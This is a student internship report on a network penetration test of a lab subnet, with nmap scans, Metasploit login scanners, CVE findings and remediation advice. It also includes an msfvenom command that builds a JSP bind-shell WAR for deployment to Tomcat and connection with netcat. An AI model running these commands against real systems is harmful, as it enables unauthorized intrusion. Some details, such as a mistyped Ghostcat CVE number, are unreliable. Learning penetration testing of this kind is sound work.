

# Internship_Report

  

## Network Penetration Testing

### Submitted by:

Samuel Ahenkorah

Index Number: 7161521

Student number: 20865105

# Table of Contents
1. [Summary](#summary)
2. [Testing_Methodogy](#TestingMethodogy)
3. [Host_Discovery](#HostDiscovery)
4. [Sevice_Discovery_and_Port_Scanning](#SeviceDiscoveryandPortScanning)
5. [vulnerabilities](#Vulnerabilities)
6. [Web-Based_Attack_Surfaces](#Web-BasedAttackSurfaces)
7. [CVSS v3.0 Reference Table](#CVSS_v3.0_Reference_Table)

# Summary
An Internal Network Penetration Test was performed on a scope comprising 10.10.10.0/24 and a domain name https://virtualinfosecafrica.com/ from September 12th, 2024 to September 14th, 2024. This report describes penetration testing that represents a point in time snapshots of the network security posture of the scope in question which can be found in the subsequent sessions.

# Testing_Methodogy
Testing took off by utilizing the Network Mapper(NMAP) tool to locate live hosts and services in the in-scope ip address provided. The output of this tooling was then manually examined and the host and services were manually enumerated to uncover any missed vulnerability and weakness. Web-based attack surfaces were exploited to generate payloads.

# Host Discovery
Host discovery is a process of finding live hosts on a network. it can be used to narrow down the scope of a network assesment or during security testing. One tool which is mostly used in host discovery is the nmap tool.

__Nmap__ is an open-source command-line tool that uses ICMP, echo requests, TCP, and UDP packets to discover hosts.

When using nmap, there are some various options or arguments that are used in hoat discovery, depending on the specific tasks to be done. Some of these are;
- -sL: List scan(Simply list targets to scan)
- -sN: Ping scan(Disable port scan)
- -Pn: Treat all hosts as online(Skip host discovery), etc...

In this case, we are doing a scan report so we will use the "-sn" argument. The command used in the host discovery was " nmap -sn 10.10.10.0/24 ", where " -sn (or --ping-scan) " - tells nmap to perform a "ping scan" which is used to discover hosts without performing a full port scan. It will only check if hosts are alive, not what services they are running.
" 10.10.10.0/24 " - specifies the target network. The /24 is a CIDR notation indicating a subnet mask of 255.255.255.0, which means the scan will cover all IP addresses from 10.10.10.1 to 10.10.10.254.

#### For -sL scan

#### For -Pn scan

The output of the nmap command includes information about hosts that are up. Tools like grep and awk are used to filter this information. To extract only the lines showing hosts that are up, you can use:

nmap -sn 10.10.10.0/24 | grep "Nmap scan report for" | awk '{print $5}'

This command sequence uses grep to find lines that indicate a host is up and also uses awk to print only the IP addresses.

To save the results to a file, redirect the output of the above command to a file. For example: 

nmap -sn 10.10.10.0/24 | grep "Nmap scan report for" | awk '{print $5}' > hosts_up.txt

This command will create (or overwrite) a file named hosts_up.txt with the list of IP addresses of hosts that are up.

You can check the contents of the file to ensure it has been written correctly by using; cat hosts_up.txt

Subdomain enumeration can also be performed using aiodnsbrute

Enumerating subdomains for https://virtualinfosecafrica.com using a wordlist located at /usr/share/wordlists/rockyou.txt. would be done by using: 

aiodnsbrute -d example.com -w /usr/share/wordlists/rockyou.txt > subdomains.txt

# Sevice Discovery and Port Scanning
Service discoveery or port scanning is the process of actively probing a target network to identify open ports and services running on them, essentially mapping out what applications and potential vulnerabilities are exposed on the system by checking which ports are actively listening for connections, thus providing valuable information for further penetration testing.

Service discovery and port scanning are essential components of network security assessments, penetration testing, and general network management

Knowing which services are running and which ports are open helps in assessing the security posture of a system. Unnecessary or outdated services can be exploited if not properly secured.

Certain services might have known vulnerabilities. By discovering these services, you can apply relevant security patches or configurations.

Ensuring that only authorized services are running is often a requirement for compliance with security standards and regulations.

To run a  service discovery scan and save to a greppable nmap file, we use the command line;

nmap -sV -oG nmap_services.txt 10.10.10.0/24

Once you have the nmap results in greppable format, the results can be filtered by protocol by using grep.

To extract TCP services, we use:

grep "/tcp" tcp_services.txt > tcp_services_separated.txt

# Vulnerabilities
Vulnerabilities are scan using metasploit by first running metasploit console

In the Metasploit console, we use the db_import command to import the results.

db_import /path/to/nmap_results.xml

we now search for available auxiliary modules in Metasploit that can scan for vulnerabilities based on nmap results, we use:

search type:auxiliary
using:
- use auxiliary/scanner/mysql/mysql_login,

- use auxiliary/scanner/vnc/vnc_login

- use auxiliary/scanner/rdp/rdp_login

- use auxiliary/scanner/smb/smb_login

we can scan for vulnerabilities
To use protocol-specific file created, we can use it with scanning tools in Metasploit.

First we launch msfconsole;

- msfconsole

Then select an Auxiliary Module:

For example, if you want to scan mysql services for vulnerabilities:

- use auxiliary/scanner/mysql/mysql_login

Set the RHOSTS Option:

Point RHOSTS to the protocol-specific file:

- set RHOSTS file:/path/to/protocol_specific_file.txt

Run the Scan:

- run

We can develop a custom wordlist by using cewl.

CeWL (Custom Word List generator) is a tool that can be used to create a custom wordlist by crawling a website. This is particularly useful for tasks such as password cracking or fuzzing where a tailored wordlist might be more effective than a generic one. Here’s how you can use CeWL to generate a custom wordlist and describe scenarios where it would be useful.

To generate a wordlist using CeWL, the target URL is specified and various parameters are optionally configured to customize the output.

Using the command line;

#### cewl http://virtualinfosecafrica.com -w custom_wordlist.txt

Once the wordlist is generated, it can be reviewed to ensure it contains the desired entries by using;

#### cat custom_wordlist.txt

The wordlist file will be a plain text file with one word per line.

Summary of Findings

| Finding      | Severity     |
|--------------|--------------|
| Unauthenticated Remote Code Execution (RCE) | Critical |
| Denial of service (DoS) | Moderate |
| UltraVNC DSM Plugin Local Privilege Escalation | High |
| Apache Tomcat AJP File Read/Inclusion | Critical |

#### Detailed Findings
Unauthenticated Remote Code Execution (RCE)

| Current Rating | CVSS Score |
|----------------|------------|
| Critical | 9.8 |

Evidence
This module takes advantage of an unauthenticated Remote Code Execution (RCE) vulnerability found in Apache version 2.4.49 (CVE-2021-41773). If files located outside the document root are not restricted by the ‘require all denied’ directive and CGI is enabled, it can allow for the execution of arbitrary commands. This issue was reintroduced in the fix for Apache 2.4.50 (CVE-2021-42013).

#### Affected Resources are;
  '10.10.10.2, 10.10.10.30, 10.10.10.45, 10.10.10.55'
#### Recommendations
  Update to a newer patched version of Apache HTTP Server.
  
### Denial of service (DoS)

| Current Rating | CVSS Score |
|----------------|------------|
| Medium | 6.5 |

These are the vulnerabilities associated with the service version MySQL 5.6.49  with the port 3306

#### Evidence
**CVE-2020-14765:** This vulnerability is present in the FTS (Full-Text Search) component of MySQL Server. It enables a low-privileged attacker with network access to induce a denial of service (DoS) by causing the MySQL Server to either hang or crash. With a CVSS 3.1 Base Score of 6.5, this vulnerability is classified as having medium severity, primarily affecting the server's availability.

**CVE-2020-14769:** This issue is found in the Optimizer component of MySQL Server. It similarly allows a low-privileged attacker with network access to potentially cause the server to hang or crash, leading to a complete DoS. The CVSS 3.1 Base Score for this vulnerability is also 6.5, reflecting medium severity with a focus on availability impacts.

#### Affected Resources:
10.10.10.5 , 10.10.10.40

#### Recommendations

- **Rate Limiting:** Enforce rate limiting to manage the number of requests a user can send to a service within a specific timeframe. This approach helps reduce the impact of denial-of-service (DoS) attacks by capping the number of requests that can potentially overload the system.

- **Traffic Filtering and Shaping:** Deploy firewalls and intrusion prevention systems (IPS) to block malicious traffic. Additionally, implement traffic shaping to prioritize legitimate requests, which can help mitigate the effects of an attack.

- **Load Balancing:** Spread incoming traffic across multiple servers or resources. This strategy helps prevent any single server from being overwhelmed, thus maintaining service availability and continuity.
- 
### UltraVNC DSM Plugin Local Privilege Escalation Vulnerability

| Current Rating | CVSS Score |
|----------------|------------|
| High | 7.8 |

It was discovered that the service version for the affected resourses which is UltraVNC 1.2.1.7 is the old version which contain vulnerabilities which could be exploited.

#### Evidence

**CVE-2022-24750:** UltraVNC, a free and open-source remote PC access software, contains a vulnerability in versions prior to 1.3.8.0. This issue affects the DSM plugin module and allows a local authenticated user to escalate privileges locally (Local Privilege Escalation, LPE) on a compromised system. The vulnerability has been addressed in version 1.3.8.1, which includes a fix to restrict plugin loading to the installed directory. 

Users are advised to upgrade to UltraVNC 1.3.8.1 to mitigate this risk. For those unable to upgrade, it is recommended to avoid installing and running the UltraVNC server as a service. Instead, users should set up a scheduled task with a low-privilege account to start WinVNC.exe. There are currently no known workarounds for scenarios where WinVNC must run as a service.

#### Affected resouces:
10.10.10.50

#### Recommendation
Upgrade to the latest version preferably version UltraVNC 1.5.0.0

### Apache Tomcat AJP File Read/Inclusion
| Current Rating | CVSS Score |
|----------------|------------|
| Critical |	9.8 |

Allows attackers to read or include files from the server via the AJP (Apache JServ Protocol) connector, which can lead to information disclosure and potentially remote code execution (RCE). Attackers can exploit this by sending specially crafted AJP messages to the server. Tools such as ajpycat can be used for this purpose.

**Evidence**

**Ghostcat - CVE-2020-193:** This issue arises when trusting incoming AJP connections to Apache Tomcat. Tomcat treats AJP connections with higher trust compared to HTTP connections. In versions of Apache Tomcat from 9.0.0.M1 to 9.0.0.30, 8.5.0 to 8.5.50, and 7.0.0 to 7.0.99, the AJP Connector was enabled by default and listened on all configured IP addresses. It was advised (and recommended in the security guide) to disable this connector if it was not needed.

The vulnerability allowed for:
- Returning arbitrary files from anywhere within the web application.
- Processing any file in the web application as a JSP.

If the web application permitted file uploads and stored those files within the application (or if an attacker could otherwise control the web application’s content), this, combined with the ability to process files as JSPs, enabled remote code execution.

**Mitigation Recommendations:**
- Mitigation is essential if an AJP port is accessible to untrusted users.
- For a defense-in-depth approach, users should upgrade to Apache Tomcat versions 9.0.31, 8.5.51, or 7.0.100 or later. These versions include hardened default configurations for the AJP Connector.
- Users upgrading to these versions may need to adjust their configurations to align with the new default settings.

# Web-Based Attack Surfaces
Web-based attacks exploit vulnerabilities in web applications to gain unauthorized access, steal data, or disrupt services. Common attack types include SQL Injection, XSS, CSRF, File Inclusion, Command Injection, Broken Authentication, Directory Traversal, Security Misconfiguration, Insecure Deserialization, and SSRF. To protect against these attacks, employ secure coding practices, input validation, proper authentication mechanisms, and regularly update and configure your web applications and servers.

To use eyewitness to take screenshots  of web severs including those running on non-standard HTTP/HTTPS ports, we use the following command:

eyewitness -f hosts.txt --web --resolve --ports 80,443.8080,8443

#### Generating Payloads
To use msfvenom to generate a payload that can trigger TCP bind shell, we use the command line;

#### msfvenom -p java/jsp_shell_bind_tcp LPORT=4444 -f war -o bind_shell.war

We then deploy the WAR file to the Tomcat server. We can do this by accessing the Tomcat Manager interface and uploading the bind_shell.war file.
Now we can access the bind shell by connecting to the specified port on the target machine. For example, if you set the port to 4444, you can use netcat to connect:

#### nc 10.10.10.55 4444

# CVSS v3.0 Reference Table
| Qualitative Rating | CVSS Score |
|--------------------|------------|
| None/Informational | N/A |
| Low | 0.1 – 3.9 |
| Medium | 4.0 – 6.9 |
| High | 7.0 – 8.9 |
| Critical | 9.0 – 10.0 |
